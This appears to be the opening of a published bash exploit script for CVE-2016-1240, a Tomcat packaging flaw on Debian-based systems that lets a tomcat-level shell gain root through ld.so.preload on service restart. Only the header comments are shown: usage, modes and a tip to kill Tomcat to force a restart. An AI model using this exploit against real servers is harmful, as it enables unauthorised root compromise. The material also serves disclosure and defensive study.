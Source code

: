     #!/bin/bash
    #
    # Tomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit
    #
    # CVE-2016-1240
    #
    # Discovered and coded by:
    #
    # Dawid Golunski
    # http://legalhackers.com
    #
    # This exploit targets Tomcat (versions 6, 7 and 8) packaging on 
    # Debian-based distros including Debian, Ubuntu etc.
    # It allows attackers with a tomcat shell (e.g. obtained remotely through a 
    # vulnerable java webapp, or locally via weak permissions on webapps in the 
    # Tomcat webroot directories etc.) to escalate their privileges to root.
    #
    # Usage:
    # ./tomcat-rootprivesc-deb.sh path_to_catalina.out [-deferred]
    #
    # The exploit can used in two ways:
    #
    # -active (assumed by default) - which waits for a Tomcat restart in a loop and instantly
    # gains/executes a rootshell via ld.so.preload as soon as Tomcat service is restarted. 
    # It also gives attacker a chance to execute: kill [tomcat-pid] command to force/speed up
    # a Tomcat restart (done manually by an admin, or potentially by some tomcat service watchdog etc.)